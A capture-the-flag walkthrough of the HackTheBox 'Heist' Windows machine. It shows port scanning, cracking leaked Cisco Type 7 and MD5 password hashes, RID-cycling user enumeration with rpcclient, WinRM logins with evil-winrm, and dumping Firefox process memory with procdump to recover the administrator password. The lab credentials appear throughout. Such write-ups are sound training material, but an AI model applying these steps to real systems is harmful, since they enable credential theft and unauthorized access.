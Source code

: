# Heist Walkthrough

Date: 2024/08/211.

## Ports Enumeration

I began with a full port scan to identify open services on the target machine:

```bash
nmap -Pn -p 80,135,445,5985,49669 -A -v -oN scan.txt -oX scan.xml <target>
```

The scan revealed the following open ports and services:

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
```

The target is likely running Microsoft Windows Server 2019 based on the OS fingerprint.2.

## Port 80 (HTTP) Enumeration

Navigating to the web server on port 80 presented a login page. The page allowed login either as an authenticated user or as a guest.

### Guest Login:

Logging in as a guest provided some valuable information:

Users:
* `admin`
* `rout3r`
* `hazard`

Configuration File:

* Located at http://heist.htb/attachments/config.txt, which contained encrypted passwords.

### Decrypting Passwords

The configuration file provided three encrypted passwords:

* `$1$pdQG$o8nrSzsGXeaduXrjlvKc91` (MD5 hash)
* `0242114B0E143F015F5D1E161713` (Cisco Type 7)
* `02375012182C1A1D751618034F36415408` (Cisco Type 7)

### MD5 Hash:

The first password is encrypted using MD5 (indicated by the $1$ prefix). I decrypted it using hashcat:

```bash
hashcat -m 500 <password_file> /usr/share/wordlists/rockyou.txt
```

### Cisco Type 7:

The other two passwords were Cisco Type 7 encrypted, which I decrypted using an online tool: [Cisco Password Cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html).

Decrypted passwords:

* `stealth1agent`
* `$uperP@ssword`
* `Q4)sJu\Y8qz*A3?d`

## Initial Access via RPC

Using the `hazard` credentials, I gained access via the RPC protocol with `rpcclient`:

```bash
rpcclient -U "hazard" --password="stealth1agent" <target>
```

## User Enumeration:

To enumerate users, I used a script found at [Hack tricks - rpcclient enumeration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration), that cycles through possible SIDs:

```bash
for i in {0..1050}; do 
  rpcclient -U "hazard%stealth1agent" <target> -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i"
done
```

This revealed several new users, including:

* SUPPORTDESK\Administrator
* SUPPORTDESK\Chase

## Gaining User Access via WinRM

With the `Chase` credentialsn, I connected to the target using WinRM:

```bash
evil-winrm -i <target> -u chase -p "Q4)sJu\Y8qz*A3?d"
```

I successfully obtained the user flag from the Chase account.

## Privilege Escalation to Administrator

### Enumeration

On the desktop, I found a `todo.txt` file with minimal hints. I used `winPEAS` for automated enumeration but found nothing conclusive. However, I noticed active Firefox processes and decided to dump their memory:

```powershell
Get-Process | Where-Object { $_.ProcessName -eq "firefox" }
```

### Dumping Firefox Memory

Using `procdump`, I dumped the Firefox process:

```powershell
.\procdump.exe 6696 -accepteula
```

Within the dump files, I discovered the administrator password: `4dD\!5}x/re8]FBuZ`.

## Accessing the Administrator Account

Finally, I logged in as Administrator using the discovered credentials and obtained the root flag:

```bash
evil-winrm -i <target> -u administrator -p "4dD\!5}x/re8]FBuZ"
```

## Summary

This box required careful enumeration and persistence. The initial access was challenging but rewarding as I gained further insight into Windows enumeration techniques. The privilege escalation, particularly through process memory dumping, provided a valuable learning experience.

### Key Takeaways:

* Web enumeration and password decryption
* RPC enumeration techniques
* Utilizing WinRM for remote access
* Process dumping and analysis for privilege escalation